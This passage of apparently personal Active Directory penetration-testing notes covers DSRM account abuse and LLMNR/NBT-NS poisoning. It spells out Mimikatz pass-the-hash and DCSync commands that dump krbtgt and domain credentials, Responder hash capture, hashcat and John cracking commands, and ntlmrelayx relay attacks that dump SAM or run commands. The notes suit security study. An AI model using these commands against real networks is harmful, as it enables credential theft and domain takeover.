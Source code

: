 			* Login using DSRM credentials on the console
		* Remote Desktop Client when connecting to the *Console* which is `mstsc /console` prior to *Windows Server 2008*, but is `mstsc /admin` with *Windows Server 2008* & newer
			* *Windows Server 2012R2* refuses DSRM logon through RDP console
	* Since the DSRM account is a local admin account, it can be authenticated to over the network to the DC
		* To do this though, ensure that the registry key `DsrmAdminLogonBehavior` is set to `2`
		* We also don't need to know the password to the DSRM account, we just need the NTLM hash (*Pass-the-Hash (PTH)*)
			* So we can essentially use the DSRM NLTM Hash to perform a PTH attack to the DC in order to access the DC!
			* We can do this with `Mimikatz`:
				* `privilege::debug`
				* `sekurlsa::pth /domain:<insert domain name here> /user:Administrator /ntlm:<insert local admin/DSRM ntlm hash here>`
				* Why stop here though? Now that we've performed a PTH to gain access to the DC's file system under the local administrator/DSRM user, we can use our newfound access to perform a `DCSync` attack as well! We can do so using our trusty `mimikatz`:
					* `lsadump::dcsync /domain:<insert domain here> /dc:<insert DC shortname here> /user:krbtgt`
					* We use the `krbtgt` account since this user has DC replication privileges
					* This is good because we can essentially dump all domain credentials using the `DCSync` attack, despite the fact that the DSRM account we abuse our access to is only a local admin account
* [LLMNR Poisoning](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks) - An **initial access technique** that an attacker could use where they listen for LLMNR resolutions/queries for resources (EX: File share name resolutions) from victims on a network & answer them with their own IP address & asks the victim to authenticate with their NTLM hash before giving access to the requested resource
	* This attack type is common when a victim on a network mistypes a fileshare path (EX: `\\fileshre` instead of `\\fileshare`) or a URL (I believe in the case of a URL, it'd be WPAD poisoning, though `responder` helps to answer all these query types)
	* You can read more about a deep dive into LLMNR poisoning [here](https://1d8.github.io/ad-adventures/llmnrpoisoning/)
	* You **must be on the same network as the victim** to perform LLMNR poisoning
	* **Link-Local Multicast Name Resolution (LLMNR)** & **NetBIOS Name Service (NBT-NS)** is used for local host resolution when DNS queries fail on the network
		* When DNS fails, LLMNR & NBT-NS queries are sent out to all hosts on the network for anyone to answer, this is where the attacker comes in & maliciously answers
		* Both these protocols are *unauthenticated* & broadcast messages for them are sent over *UDP* so attackers can exploit them to either direct victims to malicious services, or request that they authenticate before allowing them to access the service/resource they requested
	* We can use [Responder](https://github.com/lgandx/Responder) to take advantage of these DNS fallback protocols:
		* `Responder -I eth0 -wF -v` & wait for a user to mistype something!
		* When a user does mistype something, we'll get their NTLMv2 hash which we can choose to either `MultiRelay` (Comes bundled with `Responder`) (You can also use [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) from `impacket`) in order to relay the victim's authentication packets to other machines on the network, or to crack the victim's hash using a tool such as `hashcat` or `JohnTheRipper`
			* Cracking the hash (`hashcat`): `hashcat -m 5600 ntlmv2.txt /usr/share/wordlists/rockyou.txt`
			* Cracking the hash (`JohnTheRipper`): `john --wordlist=/usr/share/wordlists/rockyou.txt ntlmv2.txt`
			* Performing a relay attack with `ntlmrelayx.py`:
				* First we need to identify a list of targets that we can relay the captured hash to. These targets will have to have **SMB signing disabled**, we can use `crackmapexec` to find hosts that do:
					* `crackmapexec smb 192.168.1.0/24 --gen-relay-list targets.txt`
				* Open up 1 terminal window & start up `responder`: `Responder -I eth0 -r -d -w`
				* Open up a 2nd terminal window & run `ntlmrelayx.py`: `ntlmrelayx.py -tf targets.txt`
					* The default behavior of `ntlmrelayx.py` is that if it successfully relays a hash, it'll dump the SAM database of the host that it relayed the hash to. we can also choose to execute a command though:
						* `ntlmrelayx.py -tf targets.txt -c whoami`
				* You can read more about this NTLM relay attack paired with `Responder` [here](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)